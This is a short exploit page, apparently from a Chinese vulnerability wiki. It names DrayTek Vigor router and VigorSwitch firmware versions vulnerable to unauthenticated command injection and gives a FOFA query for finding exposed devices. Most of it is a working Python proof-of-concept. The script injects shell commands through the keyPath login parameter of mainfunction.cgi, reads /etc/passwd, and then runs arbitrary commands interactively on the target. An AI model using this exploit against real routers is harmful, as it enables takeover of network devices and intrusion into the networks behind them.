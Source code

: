 <languages  />

Вплив вразливості
-----------------

    Vigor2960 < v1.5.1

    Vigor300B < v1.5.1

    Vigor3900 < v1.5.1

    VigorSwitch20P2121 <= v2.3.2

    VigorSwitch20G1280 <= v2.3.2

    VigorSwitch20P1280 <= v2.3.2

    VigorSwitch20G2280 <= v2.3.2

    VigorSwitch20P2280 <= v2.3.2

FOFA
----

    title="Vigor 2960"

POC
---

    import requests
    import sys
    import random
    import re
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
        print('+  \033[34mVersion: DrayTek企业网络设备                                        \033[0m')
        print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+  \033[36mCmd         >>> pwd                                                \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        vuln_url = target_url + "/cgi-bin/mainfunction.cgi"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        }
        data = "action=login&keyPath=%27%0A%2fbin%2fcat${IFS}/etc/passwd%0A%27&loginUser=a&loginPwd=a"
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
            print("\033[32m[o] 正在请求 {}/cgi-bin/mainfunction.cgi \033[0m".format(target_url))
            if "root" in response.text and response.status_code == 200:
                print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 /etc/passwd \033[0m".format(target_url))
                print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
                while True:
                    Cmd = input("\033[35mCmd >>> \033[0m")
                    if Cmd == "exit":
                        sys.exit(0)
                    else:
                        POC_2(target_url, Cmd)
            else:
                print("\033[31m[x] 不存在漏洞 \033[0m")
                sys.exit(0)
        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)
            sys.exit(0)

    def POC_2(target_url, Cmd):
        vuln_url = target_url + "/cgi-bin/mainfunction.cgi"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        }
        Cmd = Cmd.replace(' ','${IFS}')
        data = "action=login&keyPath=%27%0A%2fbin%2f%26{}%0A%27&loginUser=a&loginPwd=a".format(Cmd)
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
            if response.status_code == 200:
                print("\033[32m[o] 正在请求 {}/cgi-bin/mainfunction.cgi \033[0m".format(target_url))
                print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)

    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        POC_1(target_url)